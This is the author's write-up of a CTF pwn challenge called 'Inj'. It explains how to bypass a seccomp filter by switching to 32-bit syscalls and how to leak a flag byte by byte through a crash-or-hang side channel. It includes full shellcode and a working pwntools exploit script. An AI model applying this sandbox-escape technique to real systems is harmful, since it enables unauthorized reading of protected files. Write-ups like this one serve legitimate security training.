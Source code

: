 ```yaml
---
title: "Inj official writeup"
description: "Inj is a pwn challenge I created for TFC CTF 2023."
date: "Jul 28 2023"
---
```

Inj is a shellcoding challenge using seccomp to restrict your calls.
Opening the binary in ida we see a simple main function:
![](./ida.png)

Our input gets executed as shellcode. Checking the mitigations we can see that we dont have PIE enabled.
![](./checksec.png)

I used seccomp-tools to discover what kind of restrictions are present in the binary.
![](./seccomp.png)

The output tells us the following:

1. If the arch of the syscall is x86_64 then we can only call mprotect.
2. Because of the arch check from before we can deduce that the rest of the syscalls are for 32bit. Seccomp-tools fails to see this so it displays the syscall numbers for 64bit which is close (for nr == 5) and  (for nr == 3) . However if we check the respective numbers in 32bit from this [table](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md#x86-32_bit) we can see that the syscalls are actually open and read.
![](./table.png)

Lets start with the simple part of the challenge, switching to the 32 bit syscalls. To switch to 32 bit mode we can actually use the ```int 0x80``` assembly instruction. Our current problem is that by doing so we'll have to set our registers for 32 bit mode and this means we can't write to or read from a 6 byte address since the maximum size is 4 bytes. 

Remember the mitigations from earlier? We don't have PIE enabled. This means we actually have suitable memory addresses for 32 bit system calls (addresses that are less than or equal to 4 bytes).
![](./memory.png)

And, according to the seccomp rules we can actually call mprotect as long as the call is for 64 bits.

So the first step is making the ```0x400000           0x401000 r--p     1000      0 /tmp/inj/inj``` memory segment readable, writable, and executable.
We'll then call read in 32 bit mode to read more shellcode into that memory segment, with the final step being to jump to that memory to execute the additional shellcode.
```python
from pwn import *
elf = ELF('./inj')

context.binary = elf

part1 = asm("""
add eax, 10
mov edi, 0x400000
mov esi, 0x1000
mov edx, 7
syscall
mov eax, 3
mov ecx, edi
mov edx, esi
xor ebx, ebx
int 0x80
jmp rdi
""")
```
So, what should we do now? Normally, we would use open, read, and write to print the flag to stdout, but the write syscall is not allowed!

We don’t actually need the write syscall. Instead, we can use the ```cmp``` assembly instruction to check the flag byte by byte. Since the flag is stored in memory after we open and read it (even though we can't see or print it), we can compare each byte of the flag with known values (such as every letter of the alphabet). If the comparison is successful and we find the correct byte, we’ll call read to make the program hang and wait for input. If the comparison fails and we don’t find a valid flag byte, we’ll force the program to execute an invalid instruction and cause a segmentation fault.

Lets code this step by step.
We'll open the flag.txt file (The large number stored in rax is the decimal representation of 'flag.txt', but reversed due to endianness).
```asm
mov rax, 8392585648256674918
mov rbx, 0x400800
mov [rbx], rax
mov rax, 5
xor rcx, rcx
xor rdx, rdx
int 0x80
```
Then move the file descriptor stored in rax to ebx (the first argument in 32 bit mode syscalls) and call read
```asm
mov ebx, eax
mov ecx, 0x404600
mov edx, 120
int 0x80
```
Now the flag is stored in memory, to be more precise in ecx.
The script needs to run in two loops: one loop that iterates up to a length of 100 (since we don't know the exact length of the flag, and we'll stop if we find the character '}'), and another loop that tries every possible character from the alphabet.
We'll add to the pointer that has the flag the index of the flag that we are at:
```asm
add rcx, {index}
```
Then we will compare every possible character
```asm
mov al, byte ptr [rcx]
mov bl, {ord(possible_chars[j])}
cmp al, bl
```
If the compare is not successful then we will jump to a function that causes the segfault (we use rax as a pointer even if we made if 0 beforehand).
```asm
cmp al, bl
jne .segfault
...

.segfault:
    xor rax, rax
    mov al, byte ptr [rax]
    hlt
```
But if the compare is successful we will call read so that the program will wait for input
```asm
cmp al, bl
jne .segfault
mov eax, 3
xor rbx, rbx
int 0x80
```

This will be the final script:
```python
from pwn import *
elf = ELF('./inj')

context.binary = elf
context.log_level = "error"

part1 = asm("""
add eax, 10
mov edi, 0x400000
mov esi, 0x1000
mov edx, 7
syscall
mov eax, 3
mov ecx, edi
mov edx, esi
xor ebx, ebx
int 0x80
jmp rdi
""")

possible_chars = [
    "0", "1", "2", "3", "4", "5", "6", "7", "8", "9",
    "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", "m",
    "n", "o", "p", "q", "r", "s", "t", "u", "v", "w", "x", "y", "z",
    "A", "B", "C", "D", "E", "F", "G", "H", "I", "J", "K", "L", "M",
    "N", "O", "P", "Q", "R", "S", "T", "U", "V", "W", "X", "Y", "Z",
    "!", "_", "}"
]

# Flag format is TFCCTF{}
index = 7
flag = "TFCCTF{"
char = '2'

for i in range(0, 100):
    for j in range(0, len(possible_chars)):
        p = elf.process()
        p.readuntil(b'executor!')
        p.send(part1)

        try:
            part2 = asm(f"""
            mov rax, 8392585648256674918
            mov rbx, 0x400800
            mov [rbx], rax
            mov rax, 5
            xor rcx, rcx
            xor rdx, rdx
            int 0x80
            mov ebx, eax
            mov ecx, 0x404600
            mov edx, 120
            int 0x80
            add rcx, {index}
            mov al, byte ptr [rcx]
            mov bl, {ord(possible_chars[j])}
            cmp al, bl
            jne .segfault
            mov eax, 3
            xor rbx, rbx
            int 0x80

            .segfault:
                xor rax, rax
                mov al, byte ptr [rax]
                hlt
            """)

            p.send(part2)
            response = p.recv(timeout=0.1)
            if response:
                print(1)
            else:
                flag += possible_chars[j]
                break

        except EOFError:
            continue
        except TimeoutError:
            print(4)
    index += 1
    print(flag)
    if (flag[-1] == '}'):
        break

p.interactive()
```

The script must be run with sudo because the prctl function used in the binary requires elevated privileges. Additionally, we need to wait a few minutes, as there is a 0.1 second timeout for each character.
![](./code.png)

Thank you for reading, I hope you found the challenge interesting.

If you want to try it, you can find an archive containing the flag.txt, source code, exploit, and binary [here](https://raw.githubusercontent.com/qLuma/qLuma.github.io/main/challs/inj.zip)

There is no Dockerfile for this setup, as we run it on a VPS. Elevated privileges are required, and running a Docker container designed for exploitation with elevated privileges is not a good idea.
